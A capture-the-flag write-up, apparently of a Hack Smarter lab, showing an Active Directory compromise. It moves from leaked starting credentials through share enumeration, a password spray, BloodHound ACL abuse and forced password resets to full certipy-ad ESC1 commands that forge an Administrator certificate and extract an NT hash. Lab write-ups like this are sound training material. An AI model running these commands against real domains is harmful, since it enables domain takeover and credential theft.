









Objective:

You are a member of the Hack Smarter Red Team. During a phishing engagement, you were able to retrieve credentials for the client's Active Directory environment. Use these credentials to enumerate the environment, elevate your privileges, and demonstrate impact for the client.

---

## Initial Enumeration

RustScan results:

```
Open 10.1.90.1:53
Open 10.1.90.1:88
Open 10.1.90.1:135
Open 10.1.90.1:139
Open 10.1.90.1:389
Open 10.1.90.1:445
Open 10.1.90.1:464
Open 10.1.90.1:593
Open 10.1.90.1:636
Open 10.1.90.1:3268
Open 10.1.90.1:3269
Open 10.1.90.1:3389
Open 10.1.90.1:5985
Open 10.1.90.1:9389
Open 10.1.90.1:49664
Open 10.1.90.1:49667
Open 10.1.90.1:49681
Open 10.1.90.1:49685
Open 10.1.90.1:49718
Open 10.1.90.1:49737
```

Starting credentials:

```
e.hills:Il0vemyj0b2025!
```


Our user can read the share "Human Resources".



The Welcome Start Guide requires a password. It's found in the e.hills SMB share.


Password for the file "humanresources".



Default password: [REDACTED]

Looks like a potential password spray.

LDAP doesn't seem to be working, so how can we find more users?

WinRM and RDP also look like they don't work for the initial user.



We get a list of users with LDAP!



---

## Password Spray

One of our users can log in with the sprayed default password.


```
a.harris:[REDACTED]
```


Our user has the same shares as the initial credentials.

---

## BloodHound

We ran BloodHound collection as `a.harris` and found that the user is a member of the HR group, which has GenericAll over the I.PARK user.



We saw the `I.PARK` user has ForceChangePassword over two service users, `SVC_WEB` and `SVC_CA`.



---

## Privilege Escalation

We were able to successfully change the password of that user. For future reference, make sure in bloodyAD syntax that you use proper capitalization on DC01, Host, etc.



Let's check that user's credentials.


That worked!



These users don't have any additional shares to look through.

---

## ADCS (ESC1)


ESC1 and ESC17.


Template = Welcome-Template.

Should we try to get this user with an ESC1 certificate?




```
certipy-ad req -u 'svc_ca@WELCOME.LOCAL' -p 'Password123!' -dc-ip 10.1.90.1 -target 10.1.90.1 -ca 'WELCOME-CA' -template 'Welcome-Template' -upn 'Administrator@WELCOME.LOCAL' -sid 'S-1-5-21-141921413-1529318470-1830575104-500'

Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 22
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@WELCOME.LOCAL'
[*] Certificate object SID is 'S-1-5-21-141921413-1529318470-1830575104-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```


```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.1.90.1 -domain WELCOME.LOCAL -username Administrator
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@WELCOME.LOCAL'
[*]     SAN URL SID: 'S-1-5-21-141921413-1529318470-1830575104-500'
[*] Using principal: 'administrator@welcome.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@welcome.local': aad3b435b51404eeaad3b435b51404ee:0cf1b799460a39c852068b7c0574677a
```


```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.1.90.1 -domain WELCOME.LOCAL -username Administrator -ldap-shell
```

---

## Domain Admin


GG. <3
